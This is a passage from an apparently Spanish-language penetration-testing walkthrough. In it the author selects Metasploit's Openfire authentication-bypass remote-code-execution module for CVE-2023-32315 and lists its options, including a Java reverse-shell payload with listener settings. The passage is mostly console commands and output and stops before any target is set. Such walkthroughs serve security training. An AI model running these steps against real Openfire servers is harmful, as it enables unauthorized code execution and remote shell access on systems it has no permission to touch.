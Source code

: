 ```bash
   3    \_ target: Linux x86 (Native Payload)                     .                .          .      .
   4  exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315  2023-05-26       excellent  Yes    Openfire authentication bypass with RCE plugin
```

Elegimos la opción 4, `use 4`, y vemos las opciones del plugin con `options`:

```bash
msf6 > use 4
[*] Using configured payload java/shell/reverse_tcp
msf6 exploit(multi/http/openfire_auth_bypass_r
ce_cve_2023_32315) > options

Module options (exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315):

   Name          Current Setti  Required  Description
                 ng
   ----          -------------  --------  -----------
   ADMINNAME                    no        Openfire admin user
                                           name, (default: ra
                                          ndom)
   PLUGINAUTHOR                 no        Openfire plugin aut
                                          hor, (default: rand
                                          om)
   PLUGINDESC                   no        Openfire plugin des
                                          cription, (default:
                                           random)
   PLUGINNAME                   no        Openfire plugin bas
                                          e name, (default: r
                                          andom)
   Proxies                      no        A proxy chain of fo
                                          rmat type:host:port
                                          [,type:host:port][.
                                          ..]
   RHOSTS                       yes       The target host(s),
                                           see https://docs.m
                                          etasploit.com/docs/
                                          using-metasploit/ba
                                          sics/using-metasplo
                                          it.html
   RPORT         9090           yes       The target port (TC
                                          P)
   SSL           false          no        Negotiate SSL/TLS f
                                          or outgoing connect
                                          ions
   TARGETURI     /              yes       The base path to th
                                          e web application
   VHOST                        no        HTTP server virtual
                                           host

Payload options (java/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an i
                                     nterface may be specifie
                                     d)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
```